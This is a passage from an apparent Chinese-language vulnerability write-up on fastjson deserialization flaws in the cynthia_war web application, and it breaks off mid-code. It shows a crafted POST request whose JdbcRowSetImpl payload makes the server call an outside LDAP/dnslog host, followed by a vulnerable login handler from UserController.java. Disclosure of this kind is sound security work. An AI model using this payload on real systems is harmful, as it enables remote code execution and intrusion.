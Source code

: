 ![image](https://github.com/user-attachments/assets/30c88f2b-e161-49be-b733-0b1b64f3d43f)


构造数据包：

```SQL
POST /cynthia_war/webservice/importData.do HTTP/1.1
Host: 192.168.100.4:8080
X-XSRF-TOKEN: null
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.100.4:8080
Referer: http://192.168.100.4:8080/cynthia_war/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=8CD4022EE3A992316AC39A25C7683B32; webRootDir="http://192.168.100.4:8080/cynthia_war/"; login_username=admin; login_password=21232f297a57a5a743894a0e4a801fc3; userId=""; login_nickname=admin
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 141

importDatas=[{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://8fglac.dnslog.cn/Exploit",
  "autoCommit": true
}]
```


![image](https://github.com/user-attachments/assets/4a6ea28e-6771-4a3e-b8e8-8923788d247d)


接收到dns请求

![image](https://github.com/user-attachments/assets/25439ed9-a3c0-4797-ace0-839280e9c5bf)


## 第三处：

漏洞url：[http://192.168.100.4:8080/cynthia_war/user/login.do](http://192.168.100.4:8080/cynthia_war/user/login.do)

登录接口存在fastjson反序列化漏洞

![image](https://github.com/user-attachments/assets/cfac4b2c-49b4-4a33-b0b2-fa9a347cb2c6)


漏洞存在代码文件：UserController.java

漏洞存在代码：

```SQL
	@RequestMapping("/login.do")
	@ResponseBody
	public String login(HttpServletRequest request, HttpServletResponse response ,HttpSession session) throws Exception {
		String userName = request.getParameter("userName");
		String password = request.getParameter("password");
		String remember = request.getParameter("remember");
		String targetUrl = request.getParameter("targetUrl");
		String userId = null;
		
		if (ConfigManager.getEnableSso()) {
			String passport = request.getParameter("passport");
```